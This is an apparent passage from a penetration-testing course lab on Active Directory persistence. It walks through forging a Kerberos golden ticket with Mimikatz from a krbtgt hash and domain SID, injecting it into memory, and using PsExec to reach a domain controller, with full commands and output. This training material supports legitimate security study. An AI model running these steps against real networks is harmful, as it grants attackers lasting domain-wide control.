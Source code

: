 Having obtained the NTLM hash of the _krbtgt_ account, along with the domain SID, we can now forge and inject our golden ticket. Creating the golden ticket and injecting it into memory does not require any administrative privileges and can even be performed from a computer that is not joined to the domain. We'll take the hash and continue the procedure from a compromised workstation.

Back on CLIENT74 as the _jen_ user, before generating the golden ticket, we'll launch mimikatz and delete any existing Kerberos tickets with **kerberos::purge**.

We'll supply the domain SID (which we can gather with **whoami /user**) to the Mimikatz **kerberos::golden** command to create the golden ticket. This time, we'll use the **/krbtgt** option instead of **/rc4** to indicate we are supplying the password hash of the _krbtgt_ user account. Starting July 2022,[6](https://portal.offsec.com/courses/pen-200/books-and-videos/modal/modules/lateral-movement-in-active-directory/active-directory-persistence/golden-ticket#fn6) we'll need to provide an existing account, so let's set the golden ticket's username to **jen**.

```shell
mimikatz # kerberos::purge
Ticket(s) purge for current session is OK

mimikatz # kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt
User      : jen
Domain    : corp.com (CORP)
SID       : S-1-5-21-1987370270-658905905-1781884369
User Id   : 500    
Groups Id : *513 512 520 518 519
ServiceKey: 1693c6cefafffc7af11ef34d1c788f47 - rc4_hmac_nt
Lifetime  : 9/16/2022 2:15:57 AM ; 9/13/2032 2:15:57 AM ; 9/13/2032 2:15:57 AM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'jen @ corp.com' successfully submitted for current session

mimikatz # misc::cmd
Patch OK for 'cmd.exe' from 'DisableCMD' to 'KiwiAndCMD' @ 00007FF665F1B800
```

With the golden ticket injected into memory, we've launched a new command prompt with **misc::cmd** from which we again attempt lateral movement with **PsExec**.

```
C:\Tools\SysinternalsSuite>PsExec.exe \\dc1 cmd.exe

PsExec v2.4 - Execute processes remotely
Copyright (C) 2001-2022 Mark Russinovich
Sysinternals - www.sysinternals.com

C:\Windows\system32>whoami
corp\jen
```
